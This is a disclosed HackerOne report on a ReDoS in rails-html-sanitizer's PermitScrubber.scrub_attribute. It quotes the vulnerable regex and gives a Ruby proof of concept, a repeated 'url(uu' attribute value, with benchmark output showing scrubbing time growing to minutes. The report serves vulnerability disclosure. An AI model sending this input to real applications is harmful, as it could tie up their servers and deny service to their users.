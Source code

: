 # ReDoS (Rails::Html::PermitScrubber.scrub_attribute)

## Report Details
- **Report ID**: 1684163
- **URL**: https://hackerone.com/reports/1684163
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2022-08-30T02:48:16.082Z
- **Disclosed**: 2023-01-02T13:22:09.017Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I have confirmed that ReDoS occurs on `Rails::Html::PermitScrubber.scrub_attribute`.

https://github.com/rails/rails-html-sanitizer/blob/v1.4.3/lib/rails/html/scrubbers.rb#L134

```ruby
      def scrub_attribute(node, attr_node)
        attr_name = if attr_node.namespace
                      "#{attr_node.namespace.prefix}:#{attr_node.node_name}"
                    else
                      attr_node.node_name
                    end

        ...
        if Loofah::HTML5::SafeList::SVG_ATTR_VAL_ALLOWS_REF.include?(attr_name)
          attr_node.value = attr_node.value.gsub(/url\s*\(\s*[^#\s][^)]+?\)/m, ' ') if attr_node.value
        end
```        

`/url\s*\(\s*[^#\s][^)]+?\)/m` is where the problem occurs. 

---

### PoC

```ruby
# Gemfile
gem 'rails-html-sanitizer', '~> 1.4', '>= 1.4.3'
```

scrub_benchmark.rb

```ruby
require 'benchmark'
require 'rails-html-sanitizer'

def scrub(length)
  scrubber = Rails::Html::PermitScrubber.new
  scrubber.tags = ['s']
  scrubber.attributes = ['mask']

  mask =  'url(uu' * length

  html_fragment = Loofah.fragment('<s mask="' + mask + '" id="aa">aa</s>')
  html_fragment.scrub!(scrubber)
end

Benchmark.bm do |x|
  x.report { scrub(10) }
  x.report { scrub(100) }
  x.report { scrub(1000) }
  x.report { scrub(10000) }
  x.report { scrub(100000) }
end
```

```
❯ bundle exec ruby scrub_benchmark.rb
       user     system      total        real
   0.000208   0.000020   0.000228 (  0.000226)
   0.000316   0.000001   0.000317 (  0.000320)
   0.023582   0.000039   0.023621 (  0.023653)
   2.430801   0.007312   2.438113 (  2.446419)
 233.864668   0.498743 234.363411 (234.632421)
```

## Impact

ReDoS may occur if scrub is executed in Rails::Html::PermitScrubber.

However, one of the values [Loofah::HTML5::SafeList::SVG_ATTR_VAL_ALLOWS_REF](https://github.com/flavorjones/loofah/blob/v2.18.0/lib/loofah/html5/safelist.rb#L583) must be set in `attributes`.

## Attachments
No attachments
